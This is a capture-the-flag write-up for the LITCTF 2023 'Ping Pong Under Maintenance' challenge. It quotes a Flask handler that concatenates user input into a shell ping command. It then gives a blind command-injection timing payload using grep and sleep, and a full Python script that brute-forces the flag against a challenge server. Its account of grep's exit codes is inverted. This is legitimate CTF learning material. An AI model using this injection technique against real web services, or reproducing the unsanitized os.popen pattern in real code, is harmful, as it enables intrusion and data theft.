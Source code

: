 ## Write Up For Ping Pong Under Maintenance

First check what the difference between
Ping Pong and Ping Pong Under maintenance

### Ping Pong
```py
return render_template('index.html', output=output)
```

### Ping Pong Under maintenance
```py
return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```

Notice that the only difference between the two is that Ping Pong Under
maintenance won't output what the command does

However, the program will still excute the command as seen in these lines

```py
hostname = request.form['hostname']
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This means command injection is still viable
but there must be some other way to get flag information

After a lot of thinking, testing, and failing
I finally found a timing attack

If it is possible to check whether some substring exists in the flag file
then use that change the website reponse time depending on true or false then it would be possible to brute force each character till the flag is found

### The Payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

Using this command can check if some prefix starting with LITCTF{ is in the flag file

$? returns 1 if the text grepped is in the file and 0 if it is not

Testing this command out, a proper prefix such as LITCTF causes the website to respond almost instantly;
however, a string such at ASHJFJSHD would cause the website to take over a second to load

Now that a working explot is found, 
the prefix of the flag can be tested one character at a time


And here is a simple python program to find the flag one char at a time

### Python Script

```py
import requests
import string

#allowed characters in flag
charlist = string.ascii_lowercase+string.digits+"_}"

#known prefix
flag = "LITCTF{"


#changes with every instance
url = 'http://34.130.180.82:51636/'

#payload
data = {
    'hostname': 'temp',
}

#loops till we get the flag
while True:
    #correct next character
    bestchr = " "

    #testing each character
    for x in charlist:
        #test prefix
        teststr = flag+x
        #payload
        injection = f";grep {teststr} flag.txt || sleep $?"
        data = {'hostname': injection}
        #sending request
        req = requests.post(url, data=data)
        #check how long it took
        if req.elapsed.total_seconds() < 1:
            #found the correct char
            bestchr = x
            break
    
    #appending char to flag
    flag+=bestchr
    #prints flag everytime we find the next char
    print(flag)
    #exits ones flag is found
    if(bestchr == '}'): break
```
<img width="136" alt="Screen Shot 2023-08-10 at 8 29 03 AM" src="https://github.com/EnchLolz/LITCTF23/assets/96092648/55116b60-9d03-4e26-9ed4-70f50cdb6a7f">

After a while of using this program
I was able to retrieve the flag

### LITCTF{c4refu1_fr}


# YOUR DID IT :D
